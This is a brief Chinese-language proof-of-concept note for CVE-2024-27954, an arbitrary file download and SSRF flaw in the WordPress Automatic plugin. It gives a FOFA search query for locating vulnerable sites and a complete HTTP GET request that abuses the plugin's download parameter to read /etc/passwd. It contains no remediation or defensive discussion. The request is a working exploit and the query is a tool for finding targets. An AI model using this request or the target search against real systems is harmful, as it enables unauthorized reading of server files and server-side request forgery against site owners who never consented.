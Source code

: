 # CVE-2024-27954：WordPress Automatic 插件任意文件下载和SSRF漏洞

## 1.漏洞描述

WordPress Automatic 插件存在任意文件下载和SSRF漏洞

## 2.搜索语法

```plain
fofa："/wp-content/plugins/wp-automatic"
```

## 3.漏洞复现

```plain
GET /?p=3232&wp_automatic=download&link=file:///etc/passwd HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```

![image-20240615214536332](D:\py\POC\CVE-2024-27954：WordPress Automatic 插件任意文件下载和SSRF漏洞\image-20240615214536332.png)